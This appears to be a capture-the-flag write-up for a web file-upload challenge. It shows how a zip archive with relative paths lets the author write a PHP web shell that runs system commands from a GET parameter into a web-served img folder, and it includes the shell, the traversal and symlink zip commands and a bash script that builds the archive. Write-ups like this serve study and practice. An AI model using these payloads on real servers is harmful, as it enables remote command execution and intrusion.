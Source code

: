 # Our Christmas wishlist (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))

![alt text](1.png "Chall")

This is another file upload challenge where we can upload files.

![alt text](2.png "Chall")


* There are no limits on the extension. Any extension is OK.
* PHP execution is turned off in the folder
* .htaccess files are also disabled

Hmmm if we can't upload a php file, we can't get shell. Simple as that.

Playing around with it, I noticed in the challenge description that you can upload zip files.

![alt text](3.png "Chall")

Cool it extracted the files. This is unusual behavior. How can we exploit this?

Create a `shell.php` with a backdoor system command in it. The file also has to be 2000 bytes or else the upload refused to unzip the file. We pad with random numbers to get the exact filesize.

    According to @serega6531, it's possible to have a filesize less than 2000 bytes.

```
<?php
system($_GET["cmd"]);
?>
12341234123012304230412043012034012302341234213412341234123423423232344
12341231231112312321312123123231213231212313123123123123123132123123123123123123123123123123123123
12321312123123231213231212313123123123123123132123123123123123123123123123123123123
12321312123123231213231212313123123123123123132123123123123123123123123123123123123
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111111122222222222222222222222222222222222333333333333333333333333333
```

What if we upload a relative file.

* `$ zip payload.zip ../shell2.php`

We can now access the file at /uploads/shell.php instead of /uploads/random_hash/shell.php.

The file still only downloads which means the server never executes the php code, just sends the file back to the user.

I tried to upload a file to the root directory:

* `$ zip payload.zip ../../shell2.php`

And got an error message. We probably do not have permission to write there.

Hmm back to the drawing board. I also tried to upload symbolic links, but that didn't work either.
```bash
$ ln -s ../../flag.txt test.txt
$ zip --symlinks symbolic.zip test.txt
```

The output was just `../../flag.txt`.

Back to the first plan.

Looking back at the source I noticed the images are placed inside the img folder.

![alt text](4.png "Chall")

Maybe we can write to that directory.

![alt text](5.png "Chall")

Exploit script:
```bash
#!/bin/bash
mkdir ./down
mkdir ./down/down
mkdir ./img
cp shell2.php ./img/shell2.php
cd ./down/down/
zip win.zip ../../img/shell2.php
cd ../../
mv ./down/down/win.zip .
rm -rf down
rm -rf img


echo "You can now upload win.zip"
```
